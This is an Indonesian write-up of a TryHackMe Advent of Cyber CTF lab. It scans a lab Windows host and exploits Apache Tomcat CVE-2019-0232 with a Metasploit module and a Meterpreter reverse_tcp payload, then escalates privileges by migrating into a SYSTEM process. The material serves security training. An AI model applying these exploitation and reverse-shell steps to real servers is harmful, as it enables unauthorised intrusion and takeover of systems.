# Day 12 | Ready, set, elf

`TryHackMe` `Networking` `Public Exploits` `Metasploit` `Privilege Escalation` 

---

## Learning Outcomes

- Mengetahui cara melakukan *information gathering* dan *enumeration*
- Mencari kerentanan yang terpublikasi (CVE)
- Menggunakan metasploit pada post eksploitasi

## Story 

> Christmas is fast approaching, yet, all remain silent at The Best Festival Company (TBFC). What gives?! The cheek of those elves - slacking at the festive period! Santa has no time for slackers in his workshop. After all, the sleigh won't fill itself, nor will the good and naughty lists be sorted. Santa has tasked you, Elf McEager, with whacking those elves back in line.

## Summary

tl;dr 

> tanpa privesc
- Gunakan metasploit dengan module exploit/windows/http/tomcat_cgi_cmdlineargs
- Sesuaikan opsi required-nya, dimana TARGETURI-nya adalah /cgi-bin/elfwhacker.bat
- Run exploit!


## Write-up

Write up untuk task kali ini selain mengikuti alur dari challenge dan pertanyaan dibawah, terdapat juga bonus challenge untuk melakukan privilege escalation.

Berikut penyelesaiannya.

### Challenge

> To solve Elf McSkidy's problem with the elves slacking in the workshop, he has created the CGI script: **elfwhacker.bat**
>
> Deploy the instance attached to this task, use your NMAP skills from "Day 8 - What's Under the Christmas Tree?  to find out what port the webserver (MACHINE_IP) is running on...Visit the application and discover the installation version, weaponise this information by searching knowledgebases for exploits and Meterpreter payloads possible and whack those elves!.
>
>*Bonus: There are at least two ways of escalating your privileges after you gain entry. Find these out and pivot at your leisure! (please note that this is optional for the day should you fancy the challenge...)*

### Q1: What is the version number of the web server?

Untuk menjawab pertanyaan ini, hal pertama yang dilakukan adalah melakukan pemindaian port pada mesin yang di deploy, namun, hasil pemindaian berikut gagal.

```
nmap 10.10.230.214
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-12 20:12 EST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.76 seconds
```

Mesin yang dideploy melakukan drop paket icmp atau ping. Hal diatas umumnya sering terjadi pada mesin yang menggunakan Windows.

Berdasarkan rekomendasi nmap, kita dapat mencoba menambahkan opsi `-Pn`. 

```
nmap -sC -sV -Pn --min-rate 10000 10.10.230.214
```

Dan pemindaian berhasil, berikut outputnya.

```
PORT     STATE SERVICE        VERSION
3389/tcp open  ms-wbt-server?
| rdp-ntlm-info:
|   Target_Name: TBFC-WEB-01
|   NetBIOS_Domain_Name: TBFC-WEB-01
|   NetBIOS_Computer_Name: TBFC-WEB-01
|   DNS_Domain_Name: tbfc-web-01
|   DNS_Computer_Name: tbfc-web-01
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-13T01:05:20+00:00
| ssl-cert: Subject: commonName=tbfc-web-01
| Issuer: commonName=tbfc-web-01
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-11-27T01:29:04
| Not valid after:  2021-05-29T01:29:04
| MD5:   00ab 1b83 e8e5 f516 f148 d602 2dea 18f4
|_SHA-1: bd1d 6535 5d3c 80a3 8a5f 98dd 8f98 44ee 9320 509e
|_ssl-date: 2020-12-13T01:05:24+00:00; +3s from scanner time.
8009/tcp open  ajp13          Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http           Apache Tomcat 9.0.17
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.17

Host script results:
|_clock-skew: mean: 2s, deviation: 0s, median: 2s
```

### Q2: What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)

Untuk menjawab pertanyaan ini, saya menggunakan hint yang ada :)



Hasil pencarian mengarah ke `CVE-2019-0232`



Sumber : https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-887/version_id-209957/Apache-Tomcat-9.0.0.html


### Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

Metasploit memiliki module exploit dari CVE tersebut



Berikut opsi yang ada pada module tersebut.



Opsi yang bersifat required dan belum terpenuhi adalah
TARGETURI, kita dapat mencoba teknik fuzzing karena nama scriptnya sudah diketahui, yaitu **`elfwhacker.bat`**



Seluruh opsinya required sudah terpenuhi



Lalu gunakan payload meterpreter x64
```
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
Berikut hasil eksploitasi.



### Q3: What are the contents of flag1.txt

Gunakan perintah `type` untuk membaca konten file dari flag1.txt



### Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!

> Mencoba bonus challenge

Metasploit memiliki post exploitation modules, salah satunya adalah local_exploit_suggester



Arsitektur mesin target adalah windows x64


 
Sebelum menggunakan dua exploit tersebut, terdapat suatu proses bernama `Elfwhacker.exe`, proses ini berjalan sebagai NT Authority\System



Proses migrasi ke pid tersebut berhasil.



Done

